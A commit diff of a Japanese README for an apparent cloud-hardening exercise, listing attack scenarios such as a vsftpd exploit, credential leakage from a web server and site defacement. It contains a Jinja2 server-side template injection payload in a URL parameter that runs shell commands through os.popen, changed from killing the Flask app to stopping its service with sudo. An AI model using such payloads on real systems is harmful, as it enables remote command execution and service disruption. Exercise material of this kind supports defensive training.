

Before and after one commit to ayato-shitomi/ayato-hardening-for-cloud, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Sat Mar  1 05:54:38 AM JST 2025

````diff
--- a/README.md
+++ b/README.md
@@ -96,8 +95,12 @@ vsftpdの脆弱性を利用した攻撃を行う
 
 WEBサーバーよりクレデンシャル情報が流出する
 
-- `:1x081/README.md`にリクエストが来る
+- `:8080/README.md`にリクエストが来る
 - クレデンシャル情報が流出する
+
+侵入された場合
+
+- ホームページが改竄される
 
 ## WEBアプリへの攻撃
 
@@ -113,5 +116,5 @@ SSTIでWEBアプリへの攻撃を行う
 ```
 
 ```
-/app?name={{request.application.__globals__.__builtins__.__import__("os").popen("pkill -f 'python3 /var/www/html/webapp/app.py'").read()}}
+/app?name={{request.application.__globals__.__builtins__.__import__("os").popen("sudo systemctl stop http-flask.service").read()}}
 ```
````
Also changed, not shown: other parts of README.md (+0 -1 lines).
